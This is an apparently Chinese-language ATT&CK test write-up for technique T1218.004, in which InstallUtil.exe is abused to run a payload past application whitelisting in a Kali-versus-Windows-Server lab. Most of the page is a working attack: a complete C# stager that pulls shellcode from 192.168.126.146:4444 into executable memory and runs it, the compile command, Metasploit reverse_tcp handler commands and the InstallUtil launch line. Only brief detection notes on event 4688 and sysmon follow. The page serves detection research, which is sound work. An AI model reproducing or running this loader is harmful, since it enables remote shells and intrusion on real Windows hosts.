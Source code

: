 # T1218-004-win-基于白名单Installutil.exe执行payload

## 来自ATT&CK的描述

命令行实用程序InstallUtil可用于通过执行.NET二进制文件中指定的特定安装程序组件来安装和卸载资源。

InstallUtil位于Windows系统上的.NET目录中：

C:\Windows\Microsoft.NET\Framework\v\InstallUtil.exe

C:\Windows\Microsoft.NET\Framework64\v\InstallUtil.exe

InstallUtil.exe由Microsoft进行数字签名。攻击者可能会使用InstallUtil通过受信任的Windows实用程序来代理执行代码。攻击者还可以用Installutil来绕过进程白名单，方法是在二进制文件中使用属性，这些属性执行用属性[System.ComponentModel.RunInstaller(true)]修饰的类。

## 测试案例

说明：Installutil.exe所在路径没有被系统添加PATH环境变量中，因此，Installutil命令无法识别。

补充说明：在高版本操作系统中，可以通过配置策略，对进程命令行参数进行记录。日志策略开启方法：`本地计算机策略>计算机配置>管理模板>系统>审核进程创建>在过程创建事件中加入命令行>启用`，同样也可以在不同版本操作系统中部署sysmon，通过sysmon日志进行监控。

## 检测日志

windows 安全日志/SYSMON日志（需要自行安装）

## 测试复现

### 环境准备

攻击机：Kali2019

靶机：windows server 2012

### 攻击分析

#### x64 CS

```cs
using System;using System.Net;using System.Linq;using System.Net.Sockets;using System.Runtime.InteropServices;using System.Threading;using System.Configuration.Install;using System.Windows.Forms;
public class GQLBigHgUniLuVx {
public static void Main()
{
while(true)
{{ MessageBox.Show("doge"); Console.ReadLine();}}
}
 }

 [System.ComponentModel.RunInstaller(true)]
 public class esxWUYUTWShqW : System.Configuration.Install.Installer
 {
 public override void Uninstall(System.Collections.IDictionary zWrdFAUHmunnu)
 {
 jkmhGrfzsKQeCG.LCIUtRN();
 }

 }
 public class jkmhGrfzsKQeCG
 { [DllImport("kernel")] private static extern UInt32 VirtualAlloc(UInt32 YUtHhF,UInt32 VenifEUR, UInt32 NIHbxnOmrgiBGL, UInt32 KIheHEUxhAfOI);
 [DllImport("kernel32")] private static extern IntPtr CreateThread(UInt32 GDmElasSZbx, UInt32 rGECFEZG, UInt32 UyBSrAIp,IntPtr sPEeJlufmodo, UInt32 jmzHRQU, ref UInt32 SnpQPGMvDbMOGmn);
 [DllImport("kernel32")] private static extern UInt32 WaitForSingleObject(IntPtr pRIwbzTTS, UInt32 eRLAWWYQnq);
 static byte[] ErlgHH(string ZwznjBJY,int KsMEeo) {
 IPEndPoint qAmSXHOKCbGlysd = new IPEndPoint(IPAddress.Parse(ZwznjBJY), KsMEeo);
 Socket XXxIoIXNCle = new Socket(AddressFamily.InterNetwork, SocketType.Stream, ProtocolType.Tcp);

 try { XXxIoIXNCle.Connect(qAmSXHOKCbGlysd); }
 catch { return null;}
 byte[] UmquAHRnhhpuE = new byte[4];
 XXxIoIXNCle.Receive(UmquAHRnhhpuE,4,0);
 int kFVRSNnpj = BitConverter.ToInt32(UmquAHRnhhpuE,0);
 byte[] qaYyFq = new byte[kFVRSNnpj +5];
 int SRCDELibA =0;
 while(SRCDELibA < kFVRSNnpj)
 { SRCDELibA += XXxIoIXNCle.Receive(qaYyFq, SRCDELibA +5,(kFVRSNnpj - SRCDELibA)<4096 ? (kFVRSNnpj - SRCDELibA) : 4096,0);}
 byte[] TvvzOgPLqwcFFv =BitConverter.GetBytes((int)XXxIoIXNCle.Handle);
 Array.Copy(TvvzOgPLqwcFFv,0, qaYyFq,1,4); qaYyFq[0]=0xBF;
 return qaYyFq;}
 static void cmMtjerv(byte[] HEHUjJhkrNS) {
 if(HEHUjJhkrNS !=null) {
 UInt32 WcpKfU = VirtualAlloc(0,(UInt32)HEHUjJhkrNS.Length,0x1000,0x40);
 Marshal.Copy(HEHUjJhkrNS,0,(IntPtr)(WcpKfU), HEHUjJhkrNS.Length);
 IntPtr UhxtIFnlOQatrk = IntPtr.Zero;
 UInt32 wdjYKFDCCf =0;
 IntPtr XVYcQxpp = IntPtr.Zero;
 UhxtIFnlOQatrk = CreateThread(0,0, WcpKfU, XVYcQxpp,0, ref wdjYKFDCCf);
 WaitForSingleObject(UhxtIFnlOQatrk,0xFFFFFFFF); }}
 public static void LCIUtRN() {

byte[] IBtCWU =null; IBtCWU = ErlgHH("192.168.126.146",4444);
cmMtjerv(IBtCWU);
} }

```

#### 编译payload

```bash
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /r:System.EnterpriseServices.dll /r:System.IO.Compression.dll /target:library /out:Micropoor.exe  /unsafe C:\Users\Administrator\Desktop\a\installutil.cs
```

![编译payload](https://image-host-toky.oss-cn-shanghai.aliyuncs.com/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MzM0NDY0,size_16,color_FFFFFF,t_70-20210720144602383.png)

#### 执行监听

攻击机,注意配置set AutoRunScript migrate f (AutoRunScript是msf中一个强大的自动化的后渗透工具，这里migrate参数是迁移木马到其他进程)

```bash
msf5 > use exploits/multi/handler
msf5 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 192.168.126.146
lhost => 192.168.126.146
msf5 exploit(multi/handler) > set lport 4444
lport => 4444
msf5 exploit(multi/handler) > exploit
```

![监听](https://image-host-toky.oss-cn-shanghai.aliyuncs.com/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MzM0NDY0,size_16,color_FFFFFF,t_70-20210720144608434.png)

#### 执行payload

```cmd
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U Micropoor.exe
```

#### 反弹shell

![执行payload](https://image-host-toky.oss-cn-shanghai.aliyuncs.com/20200413152353294.png)

## 测试留痕

```bash
EventID:4688 #安全日志，windows server 2012以上配置审核策略，可对命令参数进行记录
```

![日志留痕](https://image-host-toky.oss-cn-shanghai.aliyuncs.com/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MzM0NDY0,size_16,color_FFFFFF,t_70-20210720144616104.png)

## 检测规则/思路

无具体检测规则，可根据进程创建事件4688/1（进程名称、命令行）进行监控。本监控方法需要自行安装配置审核策略/sysmon。

## 参考推荐

MITRE-ATT&CK-T1218-004

<https://attack.mitre.org/techniques/T1218/004/>

基于白名单Installutil.exe执行payload

<https://micro8.gitbook.io/micro8/contents-1/71-80/72-ji-yu-bai-ming-dan-installutil.exe-zhi-hang-payload-di-er-ji>

基于白名单的Payload

<https://blog.csdn.net/weixin_30790841/article/details/101848854>
